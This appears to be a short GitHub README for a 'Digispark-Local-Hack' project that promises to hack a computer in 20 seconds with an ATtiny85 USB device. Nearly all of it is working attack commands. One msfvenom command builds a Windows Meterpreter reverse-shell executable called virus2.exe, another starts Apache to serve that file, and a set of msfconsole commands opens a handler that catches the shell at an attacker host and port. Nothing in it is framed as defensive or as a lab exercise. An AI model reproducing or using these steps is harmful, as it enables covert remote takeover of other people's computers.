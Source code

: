 # Digispark-Local-Hack
You can hack with Digispark Attiny85 in 20 Seconds

TERMINAL COMMANDS

//////////////////////////
FOR CREATE VIRUS:

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<local ip> lport=<port> -a x64 --platform windows -f exe -o virus2.exe

//////////////////////////
FOR START WEB SERVER:

service apache2 start

//////////////////////////
MSFCONSOLE COMMANDS:

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <local ip>
set LPORT <port>
exploit
